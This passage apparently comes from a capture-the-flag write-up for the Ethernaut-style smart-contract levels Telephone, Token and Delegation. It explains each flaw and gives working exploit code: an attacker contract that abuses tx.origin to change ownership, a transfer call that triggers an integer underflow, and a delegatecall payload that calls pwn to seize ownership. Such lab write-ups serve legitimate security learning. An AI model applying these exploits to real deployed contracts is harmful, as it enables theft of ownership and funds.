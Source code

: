 ```
}
```


## Telephone
The contract require that tx.origin != msg.sender to change owner. This can be easily done using a smart contract to call this function.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {

  address TelephoneContract;

  constructor(address _TelephoneContract) {
    TelephoneContract = _TelephoneContract;
  }

  function attackTel() public {
    Telephone(TelephoneContract).changeOwner(msg.sender);
  }
}
```


## Token
The token contract is vulnerable to an integer underflow. If we have 20 tokens, we can ask to send 21 tokens. Our balance would be -1 if it was a signed integer. As it is unsigned, -1 corresponds to the larger number allowed by the uint256 format.

```
contract.transfer("0x001FF67607F7B569450A93F900B3a366d74cA263", "21")
```

## Delegation
The objective is to gain ownership of the Delegation contract. To do so, we can exploit the delegatecall. The official Solidity documentation says : 
```
"There exists a special variant of a message call, named delegatecall which is identical to a message call apart from the fact that the code at the target address is executed in the context (i.e. at the address) of the calling contract and msg.sender and msg.value do not change their values."
```
So we can call the pwn function from Delegate contract, but in the context of the Delegation contract. This allows us to take ownership of the contract.

```
contract.sendTransaction({data: web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})});
```
